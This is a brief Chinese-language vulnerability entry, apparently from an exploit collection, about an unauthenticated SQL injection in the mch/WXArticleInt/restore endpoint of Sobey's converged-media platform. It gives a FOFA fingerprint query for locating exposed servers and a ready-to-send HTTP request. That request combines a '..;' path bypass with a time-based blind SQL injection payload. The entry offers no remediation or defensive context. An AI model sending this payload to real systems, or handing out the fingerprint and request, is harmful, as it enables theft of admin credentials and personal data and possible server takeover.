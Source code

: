 # 索贝融媒体search存在SQL注入漏洞

索贝融媒体产品是成都索贝数码科技股份有限公司（简称索贝）为各级电视台和媒体机构打造的一套集互联网和电视融合生产的解决方案。索贝融媒体 mch/WXArticleInt/restore 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
icon_hash="689611853"
```

## poc

```javascript
POST /sobey-mchEditor/js/..;/mch/WXArticleInt/restore HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

siteCode=&id=1+AND+%28SELECT+2804+FROM+%28SELECT%28SLEEP%285%29%29%29MDfc%29&token=
```
